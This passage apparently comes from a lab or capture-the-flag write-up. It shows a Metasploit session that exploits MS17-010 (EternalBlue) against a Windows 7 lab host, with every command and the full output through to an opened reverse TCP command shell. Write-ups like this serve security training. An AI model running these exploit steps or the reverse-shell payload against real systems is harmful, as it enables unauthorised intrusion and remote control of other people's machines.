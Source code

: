 => RHOSTS

`msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.36.127`

> RHOSTS => 10.10.36.127

`msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp`
  
> payload => windows/x64/shell/reverse_tcp
  
`msf5 exploit(windows/smb/ms17_010_eternalblue) > run`

> [\*] Started reverse TCP handler on 10.10.220.78:4444 
>   
> [\*] 10.10.36.127:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
>   
> [+] 10.10.36.127:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
>   
> [*] 10.10.36.127:445      - Scanned 1 of 1 hosts (100% complete)
>   
> [*] 10.10.36.127:445 - Connecting to target for exploitation.
>   
> [+] 10.10.36.127:445 - Connection established for exploitation.
>   
> [+] 10.10.36.127:445 - Target OS selected valid for OS indicated by SMB reply
>   
> [*] 10.10.36.127:445 - CORE raw buffer dump (42 bytes)
>   
> [*] 10.10.36.127:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
>   
> [*] 10.10.36.127:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
>   
> [*] 10.10.36.127:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
>   
> [+] 10.10.36.127:445 - Target arch selected valid for arch indicated by DCE/RPC reply
>   
> [*] 10.10.36.127:445 - Trying exploit with 12 Groom Allocations.
>   
> [*] 10.10.36.127:445 - Sending all but last fragment of exploit packet
>   
> [*] 10.10.36.127:445 - Starting non-paged pool grooming
>   
> [+] 10.10.36.127:445 - Sending SMBv2 buffers
>   
> [+] 10.10.36.127:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
>   
> [*] 10.10.36.127:445 - Sending final SMBv2 buffers.
>   
> [*] 10.10.36.127:445 - Sending last fragment of exploit packet!
>   
> [*] 10.10.36.127:445 - Receiving response from exploit packet
>   
> [+] 10.10.36.127:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
>   
> [*] 10.10.36.127:445 - Sending egg to corrupted connection.
>   
> [*] 10.10.36.127:445 - Triggering free of corrupted buffer.
>   
> [*] Sending stage (336 bytes) to 10.10.36.127
>   
> [*] Command shell session 1 opened (10.10.220.78:4444 -> 10.10.36.127:49202) at 2022-08-01 21:02:13 +0100
>   